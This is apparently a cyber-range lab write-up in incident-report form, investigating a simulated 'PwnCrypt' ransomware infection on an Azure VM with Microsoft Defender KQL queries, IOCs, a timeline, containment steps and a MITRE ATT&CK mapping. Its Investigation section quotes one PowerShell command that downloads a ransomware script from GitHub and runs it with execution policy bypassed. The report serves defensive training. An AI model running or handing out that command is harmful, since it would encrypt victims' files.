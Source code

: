 

# Zero-Day Ransomware (PwnCrypt) Outbreak Project 
## 🛡️ Incident Report: PwnCrypt Ransomware Detection and Containment

# Objective:
Identify any suspicious zero-day PwnCrypt ransomware infection, isolate the affected system, and prevent lateral movement within the corporate network.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [1. Summary](#1-summary)
- [2. Preparation](#2-preparation)
- [3. Data Collection](#3-data-collection)
- [4. Data Analysis](#4-data-analysis)
- [5. Investigation](#5-investigation)
- [6. Response](#6-response)
- [7. MITRE ATT&CK Mapping](#7-mitre-attck-mapping)
- [8. Lessons Learned / Improvement:](#8-lessons-learned--improvement)
- [9. Final Status](#9-final-status)
  
---



## 1. Summary
Incident Title: PwnCrypt Ransomware Detection and Containment <br />
Date Identified: June 21, 2025 <br />
Reported By: Security Operations Team <br />
Affected Asset: fe-vmlab (Windows Endpoint) <br />
Investigator: Fe Esguerra <br />
Severity: High <br />


## 2. Preparation
### Goal:
A newly identified ransomware variant known as PwnCrypt has been reported in the wild. This strain uses a PowerShell-based payload to encrypt files on compromised systems with AES-256 encryption. It specifically targets directories such as C:\Users\Public\Desktop, appending a .pwncrypt tag to file names (e.g., hello.txt becomes hello.pwncrypt.txt). Due to the potential risk of this ransomware spreading within the corporate environment, the CISO has requested a proactive investigation across the organization’s systems.


### Hypothesis:
Given the organization's relatively immature security posture—particularly the lack of user awareness training—there is a credible concern that the ransomware may already be present within the network. The investigation should begin by searching for known indicators of compromise (IOCs), such as files containing the .pwncrypt string in their names.


## 3. Data Collection
### Data Sources Queried:
#### DeviceFileEvents
```kql
DeviceFileEvents
| take 20
```
![zero1](https://github.com/user-attachments/assets/e8264fa2-66b3-471d-ac3f-9c84f497029d)

```kql
DeviceFileEvents
| where DeviceName == "fe-vmlab"
| order by Timestamp desc 

```
![zero2](https://github.com/user-attachments/assets/45932041-4d9e-4f3b-b0f9-536382eee67c)



## 4. Data Analysis

#### DeviceFileEvents
```kql
let VMName = "fe-vmlab";
DeviceFileEvents
| where DeviceName == VMName
| where FileName contains "_pwncrypt"
| order by Timestamp desc
```

![zero-day](https://github.com/user-attachments/assets/c91508e3-0f13-4170-a35e-53276ee4b864)

#### DeviceProcessEvents
```kql
let VMName = "fe-vmlab";
let specificTime = datetime(2025-06-21T17:21:52.5530575Z);
DeviceProcessEvents
| where DeviceName == VMName
| where Timestamp between ((specificTime - 3m) .. (specificTime + 3m))
| order by Timestamp desc

```

![zero4](https://github.com/user-attachments/assets/c05a2b44-f070-4ef9-9dee-fffab6fe2fd5)

#### Findings

Upon reviewing the PowerShell script, it was observed that it performs the following actions:

- Downloads another PowerShell script from a GitHub repository

- Saves the downloaded script to C:\ProgramData\pwncrypt.ps1

- Executes the script while bypassing the system’s configured execution policy

![zero5](https://github.com/user-attachments/assets/2d747650-a6d6-4b26-9e0f-77b94ef44264)



## 5. Investigation

### Initial Discovery
•	Source of Threat: PowerShell command run locally on the host:
```ps
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
```

### Observed Behavior: 
Files on the desktop were encrypted with _pwncrypt added to their names (e.g., report.docx_pwncrypt.docx).
#### Indicators of Compromise (IOCs)
-	File name patterns: *pwncrypt*
-	Command-line execution from PowerShell
-	Location: C:\ProgramData\pwncrypt.ps1
-	Network activity: None observed during encryption window
####  Timeline of Events

| Time (UTC)    | Event                                                 |
| ------------- | ----------------------------------------------------- |
| 17:21:52      | `.pwncrypt` file detected in `DeviceFileEvents`       |
| ±3 mins       | PowerShell script downloaded and executed from GitHub |
| Immediate     | Files began being encrypted and renamed               |
| Shortly after | Host `fe-vmlab` was isolated from the network         |


## 6. Response
### Actions Taken:

- Isolated the host from the network. 
- Reimaging of the affected endpoint.


## 7. MITRE ATT&CK Mapping

- T1059.001 – PowerShell  
- T1204.002 – User Execution: Malicious File  
- T1105 – Ingress Tool Transfer  
- T1486 – Data Encrypted for Impact  
- T1005 – Data from Local System  
- T1036 – Masquerading (potential)  
- T1027 – Obfuscated Files or Information (potential)


## 8. Lessons Learned / Improvement: 

Review PowerShell execution policies and endpoint monitoring rules

## 9. Final Status

Threat Contained: ✅

Device Isolated: ✅

Device Action: Ticket submitted for full rebuild



